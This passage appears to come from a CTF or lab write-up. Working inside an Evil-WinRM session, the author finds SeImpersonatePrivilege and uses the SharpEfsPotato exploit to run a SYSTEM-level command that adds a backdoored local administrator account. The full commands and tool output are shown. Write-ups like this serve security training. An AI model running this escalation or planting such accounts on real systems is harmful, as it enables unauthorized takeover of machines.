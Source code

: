 We can check the user's privileges on the machine by running `whoami /priv`.

```
*Evil-WinRM* PS C:\Users\Castle_Guard_29\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= =======
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
```

### SeImpersonatePrivilege Exploitation

We discover that we have the `SeImpersonatePrivilege` on this machine, which enables us to impersonate a `SYSTEM` token using any of the Potato exploits. We'll use `SharpEfsPotato.exe` to create a backdoored local admin.

```
*Evil-WinRM* PS C:\windows\tasks> .\SharpEfsPotato.exe -p C:\Windows\System32\cmd.exe -a "/c net user gatari P@ssw0rd /add && net localgroup Administrators gatar
i /add"
SharpEfsPotato by @bugch3ck
  Local privilege escalation from SeImpersonatePrivilege using EfsRpc.

  Built from SweetPotato by @_EthicalChaos_ and SharpSystemTriggers/SharpEfsTrigger by @cube0x0.

[+] Triggering name pipe access on evil PIPE \\localhost/pipe/9685d0e2-97c9-472b-aebb-1292f80510a5/\9685d0e2-97c9-472b-aebb-1292f80510a5\9685d0e2-97c9-472b-aebb-1292f80510a5
df1941c5-fe89-4e79-bf10-463657acf44d@ncalrpc:
[x]RpcBindingSetAuthInfo failed with status 0x6d3
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!

*Evil-WinRM* PS C:\windows\tasks> net user gatari
User name                    gatari
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/9/2025 4:15:52 PM
Password expires             6/20/2025 4:15:52 PM
Password changeable          5/9/2025 4:15:52 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users
Global Group memberships     *None
The command completed successfully.
```